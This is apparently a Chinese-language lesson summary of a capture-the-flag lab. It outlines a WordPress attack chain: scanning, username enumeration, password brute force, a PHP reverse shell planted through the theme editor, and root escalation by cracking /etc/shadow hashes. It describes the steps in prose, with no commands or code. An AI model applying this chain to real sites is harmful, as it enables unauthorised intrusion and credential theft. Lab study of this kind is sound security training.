



本节课我们一起学习了WEB安全中暴力破解的完整流程：

1.  **信息收集**：使用Nmap和Nikto对目标进行扫描，发现开放服务、敏感目录（如`/secret/`）及Web应用类型（WordPress）。
2.  **用户名枚举**：利用`wpscan`对WordPress站点进行用户名枚举，发现`admin`用户。
3.  **密码暴力破解**：使用Metasploit框架，对`admin`用户的密码进行字典攻击，成功破解出弱密码。
4.  **后台登录与WebShell上传**：利用破解的凭据登录后台，通过编辑主题模板文件上传PHP反向Shell。
5.  **获取初始立足点**：在攻击机设置监听，触发WebShell后获得Meterpreter会话。
6.  **权限提升**：从靶机下载密码哈希文件，使用John the Ripper破解出本地用户密码，通过用户切换和`sudo`提权最终获得root权限。
7.  **获取目标**：在root目录下找到并读取Flag文件。



核心要点在于：对WordPress的渗透中，可以通过后台编辑主题文件上传WebShell；在提权时，可以抓取系统的`/etc/passwd`和`/etc/shadow`文件，使用`unshadow`合并后，用`john`破解本地用户密码，进而利用该用户权限提升至root。